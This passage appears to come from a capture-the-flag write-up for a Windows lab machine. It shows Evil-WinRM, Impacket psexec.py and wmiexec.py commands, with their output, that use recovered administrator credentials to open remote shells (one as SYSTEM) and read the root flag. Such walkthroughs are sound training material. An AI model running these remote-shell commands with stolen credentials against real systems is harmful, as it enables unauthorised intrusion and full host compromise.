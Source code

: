I can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

root@kali# evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\desktop> whoami
remote\administrator

```

I could also use `psexec.py`:

```

root@kali# psexec.py 'administrator:!R3m0te!@10.10.10.180'
Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.180.....
[*] Found writable share ADMIN$
[*] Uploading file ErcBEqYW.exe
[*] Opening SVCManager on 10.10.10.180.....
[*] Creating service amHC on 10.10.10.180.....
[*] Starting service amHC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

Or `wmiexec.py`:

```

root@kali# wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
remote\administrator

```

From any of these, I can grab the flag:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
e2aeb068************************

```